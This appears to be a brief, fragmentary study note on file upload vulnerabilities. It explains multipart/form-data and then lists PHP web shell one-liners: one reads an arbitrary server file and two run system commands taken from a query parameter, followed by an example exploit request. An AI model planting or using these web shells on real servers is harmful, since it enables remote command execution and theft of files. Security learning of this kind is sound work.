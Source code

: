 # File Upload

When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name or address. However, it isn't suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is preferred.

MIME Type (RFC 6838)




# PHP
`<?php echo file_get_contents('/path/to/target/file'); ?>`
Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:

`<?php echo system($_GET['command']); ?>`
`<?php echo system($_GET['cmd']); ?>`
This script enables you to pass an arbitrary system command via a query parameter as follows: `GET /example/exploit.php?command=id HTTP/1.1`